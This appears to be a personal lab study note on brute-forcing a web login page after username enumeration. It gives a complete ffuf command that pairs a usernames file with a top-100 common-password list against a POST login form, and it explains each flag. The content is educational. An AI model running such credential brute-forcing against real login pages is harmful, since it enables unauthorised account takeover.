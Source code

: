 Once the valid usernames are identified in the [[Username Enumeration]], we can now attempt to brute force on the login page.

`Make sure the terminal is run in the same directory as the valid usernames.txt file is.`
```
ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE-IP/customers/login -fc 200
```
- `-w:` specifies wordlists
- `usernames.txt:` is assigned to `W1`
- top 100 passwords are assigned to `W2`
- `-X POST:` specifies the POST HTTP method to use
- `-d "username=W1&password=W2":` sends the data in POST requests
- `-H 'Content-Type: application/x-www-form-urlencoded':` adds a header to indicate the POST request is sending form data so it properly understands our request.
- `-u:` target URL for the brute-force
- `-fc 200:` filters out responses with a 200 (OK) status code, meaning successful logins are ignored.